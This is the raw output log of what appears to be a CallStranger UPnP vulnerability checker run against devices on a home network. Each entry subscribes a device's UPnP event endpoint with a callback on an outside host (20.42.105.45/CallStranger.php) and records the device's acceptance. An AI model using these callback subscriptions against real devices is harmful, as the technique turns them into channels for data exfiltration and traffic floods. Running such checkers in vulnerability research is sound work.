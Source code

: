     Calling stranger for  http://192.168.1.40:2870/AVTransport/event with http://20.42.105.45:80/CallStranger.php?c=addservice&service=gAAAAABe3eWN0JCuymqONPp3Sbu9E_TUiUmXTZ5s777Hm2WsV7CO40kqjYGLoibSPew4uBpjel6Y_pOKPQOf3PsZwKG-PIC0G5jJiqEHmwRFI-Bd6ftBUIltwYGTtiBYII1QHfQ2c7mp&token=nae9lqq3keg79l3qei9ahohvqe
    Subscribe to http://192.168.1.40:2870/AVTransport/event seems successfull
    {'Date': 'Mon, 08 Jun 2020 07:15:24 GMT', 'Server': 'NFLC/3.0 UPnP/1.0 DLNADOC/1.50', 'SID': 'uuid:13f07b14-035e-1090-8000-bc52a0dfdacc', 'Timeout': 'Second-300', 'Content-Length': '0', 'Connection': 'Keep-Alive'}
    
    Calling stranger for  http://192.168.1.40:2870/RenderingControl/event with http://20.42.105.45:80/CallStranger.php?c=addservice&service=gAAAAABe3eWNZwdAHuBpKwJw6L4vBT59oY3xnIU5iS85Gkmp8Ajo1p7gQx3FmvvyeWdNvX0vNhJ5ZDYLqJNp_Sct_F6xzJFlHSFe2nj4EvtiPL-GbHfBlHsthplZFfczbyXoqFxgwOlw&token=nae9lqq3keg79l3qei9ahohvqe
    Subscribe to http://192.168.1.40:2870/RenderingControl/event seems successfull
    {'Date': 'Mon, 08 Jun 2020 07:15:24 GMT', 'Server': 'NFLC/3.0 UPnP/1.0 DLNADOC/1.50', 'SID': 'uuid:13f45a54-035e-1090-8000-bc52a0dfdacc', 'Timeout': 'Second-300', 'Content-Length': '0', 'Connection': 'Keep-Alive'}
    
    Calling stranger for  http://192.168.1.40:2870/ConnectionManager/event with http://20.42.105.45:80/CallStranger.php?c=addservice&service=gAAAAABe3eWNlKb5TTOnwnyQPA3au856DTuiCwyYdtGcCpSYHFNCBJ4j1Tr-1HbnLV59m9kHppA6GYRZpECoT-2s7MAwIpjvcllbbCdc0ORHoA40jDBwzdqECjLPCZnM1GncnOgfSFvfTYnbOMbnbYlY825Oi0f_ZA==&token=nae9lqq3keg79l3qei9ahohvqe
    Subscribe to http://192.168.1.40:2870/ConnectionManager/event seems successfull
    {'Date': 'Mon, 08 Jun 2020 07:15:24 GMT', 'Server': 'NFLC/3.0 UPnP/1.0 DLNADOC/1.50', 'SID': 'uuid:13f8483a-035e-1090-8000-bc52a0dfdacc', 'Timeout': 'Second-300', 'Content-Length': '0', 'Connection': 'Keep-Alive'}
    
    Calling stranger for  http://192.168.1.40:2870/AVTransport/event with http://20.42.105.45:80/CallStranger.php?c=addservice&service=gAAAAABe3eWNBpQ_jvIj1auFPntVMxiNgqCAMMLd4m960P-5nA87VRRR-cCDjUthjQ1BaiXYGw9lJ2QS6u6Iq1jl_ugpE8ef7hoeuK9oT33wDIjm9cST_xj4IYW_S2SddtSsHhIwtkMX&token=nae9lqq3keg79l3qei9ahohvqe
    Subscribe to http://192.168.1.40:2870/AVTransport/event seems successfull
    {'Date': 'Mon, 08 Jun 2020 07:15:24 GMT', 'Server': 'NFLC/3.0 UPnP/1.0 DLNADOC/1.50', 'SID': 'uuid:13fc0db2-035e-1090-8000-bc52a0dfdacc', 'Timeout': 'Second-300', 'Content-Length': '0', 'Connection': 'Keep-Alive'}
    
    Calling stranger for  http://192.168.1.31:2869/upnphost/udhisapi.dll?event=uuid:7ea9d240-fbe4-4ad8-8001-5074901c3695+urn:upnp-org:serviceId:RenderingControl with http://20.42.105.45:80/CallStranger.php?c=addservice&service=gAAAAABe3eWNk6hSWo8XmOpY-kvAsWA4ztVyP71dJy0Pit2GWl9lH5u7CiU8selzo2uSXmRczZYz2MMwbF45En3rkfmhk5JkRHRQOpytn1GhDClqevh-S6UBAiDiRvcnBFRhAyb-C6mjvOCbjpZ1amIaQs5wxPFH9OSCT6aeIp5BRPeCLbk0XsbExDvq7Kilmf0X-CeoJxwrOlzhEFt3aA9UbzrP5WKq_6KAVtxk_rDMemINYtBsjMwyAwSFIr2duohzAsL7pe-f&token=nae9lqq3keg79l3qei9ahohvqe
    Subscribe to http://192.168.1.31:2869/upnphost/udhisapi.dll?event=uuid:7ea9d240-fbe4-4ad8-8001-5074901c3695+urn:upnp-org:serviceId:RenderingControl seems successfull
    {'Server': 'Microsoft-Windows/10.0 UPnP/1.0 UPnP-Device-Host/1.0 Microsoft-HTTPAPI/2.0', 'Timeout': 'Second-300', 'SID': 'uuid:73096487-e9ce-4781-93bf-b5529b4120e9', 'Date': 'Mon, 08 Jun 2020 07:15:23 GMT', 'Content-Length': '0'}
    
    Calling stranger for  http://192.168.1.22:49154/upnp/event/ContentDirectoryNmsO with http://20.42.105.45:80/CallStranger.php?c=addservice&service=gAAAAABe3eWNA1hU2ZXgFrbgMOrf3NfpHkNgShYE8oH0Zr1D8j1NHPWqCe7bEs_7g2TnvFmeoOE7hCLuzKVxdmviS-WjlvHLMlKzpJ9Yp4GxsPzviV8JD-Gnfj4yrt-SXcJe2c7Hb88BKxBqH5yRxSRZRSr6t7Ehjg==&token=nae9lqq3keg79l3qei9ahohvqe
    Subscribe to http://192.168.1.22:49154/upnp/event/ContentDirectoryNmsO seems successfull
    {'DATE': 'Mon, 08 Jun 2020 07:15:24 GMT', 'SERVER': 'Linux2.6/0.0 UPnP/1.0 PhilipsIntelSDK/1.4 DLNADOC/1.50', 'SID': 'uuid:C0A80120-0000-0000-0ECC-000000000013', 'TIMEOUT': 'Second-300', 'Content-Length': '0'}
    
